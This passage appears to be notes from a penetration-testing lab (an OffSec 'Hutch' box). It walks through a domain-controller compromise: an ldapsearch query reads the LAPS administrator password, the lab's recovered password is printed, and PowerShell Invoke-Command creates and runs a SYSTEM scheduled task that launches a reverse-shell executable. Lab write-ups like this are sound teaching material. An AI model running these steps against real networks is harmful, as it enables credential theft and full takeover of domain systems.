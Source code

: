 
```
dir "C:\Program Files"
```

`LAPS`

```bash - kali
ldapsearch -v -x -D <USER>@<HOSTNAME>.<DOMAIN> -w <PASSWORD> -b 
"DC=<HOSTNAME>,DC=<DOMAIN>" -h $TARGET "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


```
# HUTCHDC, Domain Controllers, hutch.offsec
dn: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec
ms-Mcs-AdmPwd: Q4yzT+2-BiTBlF
```

`Q4yzT+2-BiTBlF`

```powershell - windows
powershell
```

Use found password from above here.

```powershell - windows
$pw = ConvertTo-SecureString "Q4yzT+2-BiTBlF" -AsPlainText -Force
```

```powershell - windows
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```

Make sure the path to reverse.exe is correct below.

```powershell - windows
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\Windows\Temp\Tools\reverse64.exe /ru SYSTEM } -Credential $creds
```

![[1._rlwrap]]

SUCCESS: The scheduled task "shell" has successfully been created.

```powershell - windows
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

SUCCESS: Attempted to run the scheduled task "shell".
